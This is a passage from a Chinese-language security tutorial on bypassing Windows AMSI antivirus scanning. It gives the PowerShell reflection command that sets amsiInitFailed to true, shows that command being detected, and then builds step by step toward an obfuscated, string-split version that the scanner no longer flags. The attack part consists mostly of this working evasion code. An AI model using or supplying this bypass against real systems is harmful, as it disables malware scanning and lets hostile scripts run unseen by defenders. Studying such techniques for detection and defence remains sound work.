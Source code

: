 ### 一个脚本绕过的实例

上面这几种方法都是为了绕过 "字符串检测"，但是实际过程中，我们需要执行我们的脚本，也就脚本被 AMSI 阻止，我们通过一个实例来演示下绕过 AMSI。

下面这个是 16 年老外发布的关闭 amsi 的命令。这段代码的主要功能是通过反射访问 `AmsiUtils` 类中的 `amsiInitFailed` 字段，将其值设置为 `$true`，从而绕过 AMSI 扫描。

```plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

直接就报毒：

[![](assets/1710900073-22480e3a25cabb763bb60c5bb06d5947.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101940-7da72b14-d904-1.png)

然后我们进行分割，不一句话执行：

```plain
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)
```

可以看到前两条命令仍然被杀，这两条命令是反射访问类中字段的，所以我们要想办法进一步绕过

[![](assets/1710900073-d92704f4cb28a5cd87260206f796d669.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101954-85cf00be-d904-1.png)

我们把类名和字段名进行拆分，然后通过参数的形式赋给我们的命令，可以看到现在已经不查杀了

```plain
$a = 'System.Management.Automation.A';$b = 'ms';$c = 'Utils'
$d = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$c))
$e = $d.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$e.SetValue($null,$true)
```
